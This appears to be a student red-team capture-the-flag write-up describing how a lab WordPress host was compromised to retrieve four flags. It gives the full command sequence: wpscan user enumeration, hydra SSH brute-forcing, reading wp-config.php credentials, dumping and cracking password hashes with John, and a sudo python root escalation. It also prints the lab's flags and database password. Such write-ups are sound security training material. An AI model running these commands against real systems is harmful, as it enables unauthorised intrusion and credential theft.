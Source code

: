 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.
      ```
      wpscan http://192.168.1.110/wordpress/ --enumerate u
      ```
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      ```
      hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
      ```
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      ```  
      ssh michael@192.168.1.110
      ```
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      ```
      cd /var/www/html/
      cat service.html
      ```
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      ```
      locate flag2.txt
      ```
      ![locate flag2](./Images/locateFlag2.png)
      ```
      cd /var/www/
      cat flag2.txt
      ```
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      ```
      cd /var/www/html/wordpress/
      cat wp-config.php
      ```
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      ```
      mysql -u root -p'R@v3nSecurity'
      ```
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      ```
      show databases;
      use wordpress;
      ```
      ![show databses and use wordpress](./Images/showDatabases.png)
      ```
      show tables;
      ```
      ![show tables](./Images/showTables.png)
      ```
      select * from wp_posts 
      ```
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      ```
      echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt
      john wp_hashes.txt
      ```
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      ```
      ssh steven@192.168.1.110
      ```
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      ```
      sudo -l
      ```
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      ```
      sudo python -c 'import pty;pty.spawn("/bin/")'
      ```
      ![privilege escalation](./Images/privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      ```
      locate flag4.txt
      ```
      ![locate flag4](./Images/locateFlag4.png)
      ```
      cd /root/
      cat flag4.txt
      ```
      ![flag4](./Images/flag4.png)